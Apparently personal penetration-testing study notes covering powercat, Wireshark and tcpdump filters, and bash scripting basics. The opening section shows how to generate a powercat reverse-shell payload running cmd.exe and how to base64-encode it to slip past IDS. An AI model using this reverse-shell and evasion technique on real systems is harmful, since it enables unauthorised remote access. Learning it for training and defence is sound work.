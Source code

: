                 windows: `powercat -c <ip> -p 443 -e cmd.exe -g > reverseshell.ps1`
                    `-g` make a payload to file.ps1
                windows: `./reverseshell.ps1`
                    this will give u a revers shell. however, IDS will see
                    this so we can encode it in base64 to try and get
                    around.
                windows: change `-g` to `-ge` to encode the payload
                windows: `powershell.exe -E <pasted in encoded payload text>`
                we get a reverse shell on linux
    #wireshark
        click on interface we want to use such as `tun0` and apply capture
        filters.
            `net 10.11.1.0/24`
                only display packets on that network
            display filters are used to filter more when looking at traffic
            `tcp.port == 21`
                shows only `ftp` traffic on port `21`
            following steams. `rc on packet> folow > tcp stream` will show us all the
            packets in order so we can see the entire communication
    #tcpdump
        terminal based capture traffic and read cap files
        `tcpdump -r file_with_traffic.pcap`
            displays tcp data from pcap
            `-n` skip DNS lookings
        pipe into `awk` to filter data
        `tcpdump -n -r file.pcap | awk -F" " '{print $3}' | sort | uniq -c | head`
            prints the destination address in field 3, sort and count unique ips
        `src host <ip>` show traffic from that host
        `dst host <ip>` show traffic dest for host
        `port 81` show traffic by port both source and dest
        `-X` prints in both hex and ASCII
        `-A` prints in ascii
        Advanced filtering: only display the data packets. in a header, the
        `ack` and `psh` flags turned on showing a connection attempt. They are
        the `4th` and `5th` `bit` of the `14th` byte. Turning on only these 
        bits would be decimal `24`.
        `tcpdump -A -n 'tcp[13] = 24' -r file.pcap`
            the tcp array index starts at 0 so `tcp[13]` is the `14th byte`
            that we are setting to decimal `24` to only show those data packets
    #bash scripting
       `''` everything inside is literal
       `""` everything inside is literal except for $ ` \
       `var1=$(whoami)`
        will save the output of the cmd `whoami` in `var1`
       `#!/bin/bash -x`
        will run with debugging on to display what is happing with script.
        `+` are run in current shell and `++` are run in a sub shell
       #arguments
        on `ls`, `-l` is an argument. in a script:
            `$0` is the name of the script
            `$1` the first argument passed to the script and so on
                [script.sh](script.sh)
                `./script.sh tim`
                would print: `hello tim`
            `$?` show exit status of last process 
            `$RANDOM` prints random number
       `read answer`
        to capture user input and assign to var `answer`
        `-p` prompt
            `read -p 'Username: ' username_var`
                displays prompt `Username: ` and saves to the var `username_var`
        `-s` silent so don't print input to term
        #if, else, elif
            [if](if)
